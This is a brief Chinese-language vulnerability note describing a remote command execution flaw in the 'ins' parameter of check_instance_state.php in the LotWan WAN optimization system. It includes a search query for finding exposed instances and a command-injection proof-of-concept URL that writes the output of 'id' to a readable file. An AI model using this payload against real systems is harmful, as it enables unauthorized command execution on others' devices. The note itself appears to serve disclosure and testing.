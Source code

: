 # 华夏创新 LotWan广域网优化系统 check_instance_state.php 远程命令执行漏洞

# 华夏创新 LotWan广域网优化系统 check_instance_state.php 远程命令执行漏洞

## 漏洞描述

华夏创新 LotWan广域网优化系统check_instance_state.php文件参数 ins存在命令拼接，导致远程命令执行漏洞

## 漏洞影响

```
华夏创新 LotWan广域网优化系统
```

## 网络测绘

```
title="LotWan 广域网优化系统"
```

## 漏洞复现

登录页面

![image-20220519182517187](/images/202205191825272.png)

存在漏洞的文件为

```
/acc/check_instance_state.php?ins=;id>cmd.txt
```

再访问 `/acc/cmd.txt`

![image-20220519182529097](/images/202205191825165.png)

